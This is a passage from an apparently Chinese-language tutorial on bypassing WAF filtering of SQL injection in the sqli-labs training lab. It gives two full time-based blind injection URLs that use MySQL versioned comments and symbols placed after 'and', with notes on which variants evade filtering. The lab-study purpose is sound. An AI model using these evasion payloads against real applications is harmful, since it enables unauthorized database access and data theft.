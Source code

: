 ![添加条件判断注释](./../../../images/SQLi%20Bypass/%E6%B7%BB%E5%8A%A0%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E6%B3%A8%E9%87%8A.png)

> 成功绕过
>
> 网页响应时间为 2 秒

提交注释后的参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'/*!11440and*/if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 成功绕过

在 and 后加 !

> and 参数后可以跟奇数个数的特殊符号，包括但不限于 !~&-

```
http://192.168.186.129/sqli-labs/Less-1/?id=1'and!if(ascii(substr(database/**/(/*!*/),1,1))>116,1,sleep/**/(/*!3*/))--+
```

> 不拦截，但是时间与预期不符
